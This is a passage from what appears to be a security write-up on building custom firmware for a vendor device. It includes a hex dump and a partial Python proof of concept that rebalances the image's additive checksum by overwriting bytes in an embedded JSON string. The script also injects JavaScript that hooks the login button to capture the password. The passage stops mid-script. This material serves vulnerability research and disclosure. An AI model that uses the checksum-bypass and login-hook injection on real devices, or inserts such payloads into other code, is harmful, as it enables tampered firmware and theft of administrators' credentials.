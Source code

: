 Now that we can balance the firmware image, we need to select very carefully where in the binary data it will do the balancing.  I chose within a JSON string embedded in the binary:

```
0013b9a0: 2022 5468 6520 6d61 7869 6d75 6d20 6e75   "The maximum nu
0013b9b0: 6d62 6572 206f 6620 7365 7373 696f 6e73  mber of sessions
0013b9c0: 2068 6173 2062 6565 6e20 7265 6163 6865   has been reache
0013b9d0: 642e 2057 6169 7420 6120 6665 7720 6d69  d. Wait a few mi
0013b9e0: 6e75 7465 7320 616e 6420 7468 656e 2074  nutes and then t
0013b9f0: 7279 2061 6761 696e 2e22 3a20 7b0a 2020  ry again.": {.  
```

I wrote this all into a python script that can take a vendor-supplied stock firmware image and turn it into a custom image.  The proof of concept is provided here:

```python
import sys
fname = sys.argv[1]
HEADER_SIZE = 0x14

def generate_checksum(data):
    csum = 0
    for b in data:
        csum = csum + b
    return csum

def balance(data, cksum, idx):
    print("Checksum to match: " + str(cksum))
    checksum = generate_checksum(data)
    while cksum != checksum:
        diff = checksum - cksum
        if diff >= 0:
            if diff > 0xff:
                data[idx] = 0x1
            else:
                data[idx] = abs(data[idx] - diff)
        else:
           if diff < -0xff:
               data[idx] = 0xff
           else:
               data[idx] = 0xff + diff

        idx = idx + 1
        checksum = generate_checksum(data)

    return data

with open(fname, 'rb') as f:
    to_overwrite = '"The maximum number of sessions has been reached. Wait a few minutes and then try again.":'
    to_remove = """$(document).ready(function(){\n            transMultipleLang(document.body);\n        });\n    """
    payload = "loginBtn.onclick = function(e) { console.log(password.value); }\n"
    payload_len = len(payload)
    padding = len(to_remove) - payload_len
    payload = payload.ljust(padding + payload_len, "\n")

    data = f.read()
    to_remove = bytearray(to_remove, encoding="utf8")
    to_overwrite_idx = data.find(bytearray(to_overwrite, encoding='utf8')) + 1
    to_replace_idx = data.find(to_remove)
    
    if to_overwrite_idx < 0:
        print("To Overwrite not found, exiting")
        sys.exit(1)
```